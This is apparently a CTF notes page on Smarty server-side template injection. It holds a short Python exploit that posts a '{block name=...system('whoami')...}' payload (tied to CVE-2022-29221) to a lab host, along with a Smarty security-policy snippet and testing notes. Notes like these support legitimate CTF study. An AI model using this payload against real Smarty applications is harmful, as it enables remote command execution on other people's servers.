 tags:: CTF/SSTI/Smarty

- # 打CVE
	- ```python
	  url = "http://e76e32ca-0905-43bd-8b92-bb5a027246b2.node4.buuoj.cn:81/index.php"
	  
	  r = base_post(url, data = {
	      "data": "{block name=\"poc*/system('whoami');/*\"}ABC{/block}"
	  }, cookies = {
	      "login": "114"
	  })
	  print(r.text)
	  ```
- # 施工中
	- smarty安全设置
		- ```php
		  $smarty = new Smarty();
		  $my_security_policy = new Smarty_Security($smarty);
		  $my_security_policy->php_functions = null;
		  $my_security_policy->php_handling = Smarty::PHP_REMOVE;
		  $my_security_policy->php_modifiers = null;
		  $my_security_policy->static_classes = null;
		  $my_security_policy->allow_super_globals = false;
		  $my_security_policy->allow_constants = false;
		  $my_security_policy->allow_php_tag = false;
		  $my_security_policy->streams = null;
		  $my_security_policy->php_modifiers = null;
		  $smarty->enableSecurity($my_security_policy);
		  ```
	- 测试
		- `$smarty`变量仍然可以使用
			- `{$smarty.now}`
	- CVE-2022-29221
	-